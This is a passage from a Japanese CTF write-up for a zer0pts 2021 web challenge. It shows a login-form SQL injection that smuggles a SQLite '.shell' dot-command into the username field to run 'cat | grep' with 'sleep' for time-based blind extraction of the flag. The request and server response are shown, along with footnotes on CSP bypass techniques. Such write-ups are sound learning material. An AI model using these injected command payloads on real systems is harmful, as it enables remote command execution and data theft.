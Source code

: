ところで、`sqlite3_escape`が`.`も許容していることがとても気になります。怪しいです。非常に。

というわけで、SQLiteの構文で`.`を使ったものがあるか調べると[dot-command](https://sqlite.org/cli.html#:~:text=dot-commands)というものがありました。`.system`や`.shell`でシェルコマンドを叩けるので何でもできそうです。

例えば
```sh
cat templates/index.html | grep zer0pts{prefix && sleep 10
```
のようなコマンドを実行すると、`zer0pts{prefix`がヒットしたときだけタイムアウトし、ヒットしなかったときはすぐにレスポンスが返ってくるようになるため、time-basedなblind SQLiができそうです。

```
";\n.shell cat templates/index.html|grep zer0pts{prefix&&sleep 9\n
```
を投げてみましょう（ここで`\n`は改行文字です）。

```fish
$ http --form --follow POST http://web.ctf.zer0pts.com:8004/login username='";'\n'.shell cat templates/index.html | grep zer0pts{ && sleep 10'\n password=abc
HTTP/1.0 200 OK
Content-Length: 697
Content-Type: text/html; charset=utf-8
Date: Mon, 08 Mar 2021 15:27:15 GMT
Server: Werkzeug/1.0.1 Python/3.7.10
Set-Cookie: session=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0; Path=/

<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Login</title>
    </head>

    <body>
        <h1>Login</h1>
        <form action="/login" method="post">

            <p style="color:red">Too long username or password</p>

            <label for="username">Username: </label>
            <input id="username" name="username" type="text" placeholder="Username (letters, digits, underscores and whitespaces)"><br>
            <label for="password">Password: </label>
            <input id="password" name="password" type="password" placeholder="Password"><br>
            <input type="submit" value="Login">
        </form>
    </body>
</html>
```

`Too long username or password`と怒られてしまいました。
ソースコードを読むと
```python
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))
```
とあり、32文字以下という制限があります。


[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet